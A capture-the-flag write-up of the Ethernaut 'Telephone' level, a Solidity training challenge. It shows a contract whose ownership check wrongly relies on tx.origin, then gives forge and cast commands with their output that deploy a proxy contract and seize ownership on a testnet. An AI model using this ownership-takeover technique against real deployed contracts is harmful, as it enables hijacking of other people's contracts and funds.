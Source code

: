 ```yaml
---
title: "Telephone"
tags: ["Proxy"]
reference: https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446
---
```


# Description

Claim ownership of the contract below to complete this level.

- Things that might help


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

# Solution

1. What is `tx.origin`?

In Solidity, tx.origin is a global variable that refers to the original external account (EOA) that initiated the transaction — even if the transaction passes through multiple smart contracts.

We can make `tx.origin != msg.sender` by calling `changeOwner` via a proxy contract?

2. Deploy [TelphoneProxy](lv_4/src/Proxy.sol) smart contract

```
forge create src/Proxy.sol:TelephoneProxy --rpc-url=$BASE_SEPOLIA_RPC --account deployer --broadcast
[⠃] Compiling...
No files changed, compilation skipped
Enter keystore password:
Deployer: 0xB1473Ba227C4645501E0e05f4839b00ED8320d33
Deployed to: 0x650cd15495fa04d0450eA1Dd2B9f164766f226Dd
Transaction hash: 0x5c23660ca92a840f8525ea631768475afbb5e988cde58e49b93ce96d3d1ad261
```

3. Get player and victim contract addresses

```
=> Instance address0x59fC2E3Ad3c4A6D4a4169815FDDe77CE7d5DAFe5
player
'0xB1473Ba227C4645501E0e05f4839b00ED8320d33'
```

4. Call `changeOwner()`

```
cast send 0x650cd15495fa04d0450eA1Dd2B9f164766f226Dd "changeOwner(address,address)" 0x59fC2E3Ad3c4A6D4a4169815FDDe77CE7d5DAFe5 0xB1473Ba227C4645501E0e05f4839b00ED8320d33 --rpc-url $BASE_SEPOLIA_RPC --private-key 
```

5. check the updated owner

```
await contract.owner()
'0xB1473Ba227C4645501E0e05f4839b00ED8320d33'
```
